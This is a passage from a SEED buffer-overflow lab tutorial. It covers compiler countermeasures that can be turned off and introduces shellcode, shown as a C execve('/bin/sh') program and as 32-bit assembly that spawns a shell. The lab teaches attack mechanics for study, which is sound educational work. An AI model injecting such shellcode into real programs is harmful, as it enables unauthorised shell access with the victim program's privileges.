![image](https://github.com/CloudLabs-MOC/CloudLabs-SEED/assets/33658792/9f20070f-2150-42bd-ab90-b9f54e18d374)

**StackGuard and Non-Executable Stack**. These are two additional countermeasures implemented in the system. They can be turned off during the compilation. We will discuss them later when we compile the vulnerable program. 

## 3 Task 1: Getting Familiar with Shellcode

The ultimate goal of buffer-overflow attacks is to inject malicious code into the target program, so the code can be executed using the target program’s privilege. Shellcode is widely used in most code-injection attacks. Let us get familiar with it in this task. 

### 3.1 The C Version of Shellcode

First we redirect to the lab files with the help of following commands:

```bash
ls
cd Labsetup/
ls
```

> Here Labsetup is the folder name which you download and unzipped in previous steps.

![image](https://github.com/CloudLabs-MOC/CloudLabs-SEED/assets/33658792/d1425f16-6a4d-4672-8620-60aba8b6ad4b)

A shellcode is basically a piece of code that launches a shell. If we use C code to implement it, it will look like the following: 

```c
#include <stdio.h>

int main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

Unfortunately, we cannot just compile this code and use the binary code as our shellcode (detailed explanation is provided in the SEED book). The best way to write a shellcode is to use assembly code. In this lab, we only provide the binary version of a shellcode, without explaining how it works (it is non-trivial). If you are interested in how exactly shellcode works and you want to write a shellcode from scratch, you can learn that from a separate SEED lab called Shellcode Lab. 

### 3.2 32-bit Shellcode

```bash
; Store the command on stack
xor eax, eax
push eax
push "//sh"
push "/bin"
mov ebx, esp ; ebx --> "/bin//sh": execve()’s 1st argument
; Construct the argument array argv[]
push eax ; argv[1] = 0
push ebx ; argv[0] --> "/bin//sh"
mov ecx, esp ; ecx --> argv[]: execve()’s 2nd argument
; For environment variable
xor edx, edx ; edx = 0: execve()’s 3rd argument
; Invoke execve()
xor eax, eax ;
mov al, 0x0b ; execve()’s system call number
int 0x80
```
